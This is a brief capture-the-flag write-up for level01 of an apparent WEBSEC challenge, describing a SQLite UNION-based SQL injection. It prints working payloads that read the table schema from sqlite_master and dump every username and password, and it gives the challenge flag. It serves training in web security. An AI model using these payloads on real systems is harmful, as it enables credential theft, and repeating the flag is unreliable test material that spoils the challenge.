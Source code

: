 ```yaml
---
layout: default
title: level01
---
```


There is a basic sql injection, here in variant of sqlite.
Let's examine the structure of the table:

- Request
> `5 Union select 1,sql FROM sqlite_master`

- Answer:
> `CREATE TABLE users(id int(7), username varchar(255), password varchar(255))`

Okay, we can see there is also column for password, let's get all passwords and usernames:

- Request
> `5 union select group_concat(username),group_concat(password) from users`
- Answer:
> `UnrelatedPassword,ExampleUserPassword,WEBSEC{Simple_SQLite_Injection}`

Yay, the FLAG is found inside the passwords

**Flag:** ***`WEBSEC{Simple_SQLite_Injection}`*** 
